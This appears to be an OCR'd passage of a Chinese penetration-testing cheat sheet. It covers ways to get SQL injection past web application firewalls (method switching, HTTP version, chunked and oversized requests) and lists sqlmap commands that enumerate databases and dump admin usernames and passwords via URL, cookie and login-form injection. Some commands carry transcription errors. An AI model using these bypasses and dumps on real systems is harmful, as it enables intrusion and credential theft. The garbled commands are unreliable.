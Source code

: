 #### 请求方式差异规则松懈性绕过

* 拦截：`GET /id=1 union select 1,2,3,4`
* 绕过：`POST id=1 union select 1,2,3,4`

waf业务限制，POST规则相对松懈

#### HTTP版本绕过

使用 `HTTP/0.9`  `HTTP/1.1` 绕过

#### 另有

* 编码方式绕过(urlencoded/from-data)
* chunked编码绕过
* 超大数据包绕过
* 数据包分块传输绕过

## 06 进阶工具使用技巧

### SQLmap进阶使用技巧

#### Access

* `--url="[http://127.0.0.1/CompHonorBig.asp?id=7](http://127.0.0.1/CompHonorBig.asp?id=7)" --tables` // 列表
* `--url="[http://127.0.0.1/CompHonorBig.asp?id=7](http://127.0.0.1/CompHonorBig.asp?id=7)" --columns -T admin`  // 字段
* `--url="[http://127.0.0.1/CompHonorBig.asp?id=7](http://127.0.0.1/CompHonorBig.asp?id=7)" --dump-T admin -C"username,password"`  // 内容

#### MySQL

* `--url="[http://127.0.0.1/link.php?id=321](http://127.0.0.1/link.php?id=321)" --dbs`
* `--url="[http://127.0.0.1/ink.php?id=321](http://127.0.0.1/ink.php?id=321)" --tables -D myDB`
* `--url="[http://127.0.0.1/link.php?id=321](http://127.0.0.1/link.php?id=321)" --columns -D myDB -T admin`
* `--url="http:/127.0.0.1/link.php?id=321" --dump "username,password" -T admin -D myDB`

#### Cookies 注入

* `--url="[http://127.0.0.1/DownloadShow.asp](http://127.0.0.1/DownloadShow.asp)" --level=2 --cookie=id=9 --tables`
* `--url="[http://127.0.0.1/DownloadShow.asp](http://127.0.0.1/DownloadShow.asp)" --level=2 --cookie=id=9 --tables --columns -T admin`
* `--url="[http://127.0.0.1/DownloadShow.asp](http://127.0.0.1/DownloadShow.asp)" --evel=2 --cookie=id=9 --dump-T admin -C
"username, password"`

#### POST登录框

* `--url="httpi://127.0.0.1/Login.asp" --forms`  // 自动搜
* `--url="[http://127.0.0.1/Login.asp"--data="tfUName=1&tfUPass=1](http://127.0.0.1/Login.asp%22--data=%22tfUName=1&tfUPass=1)"`   // 指定项
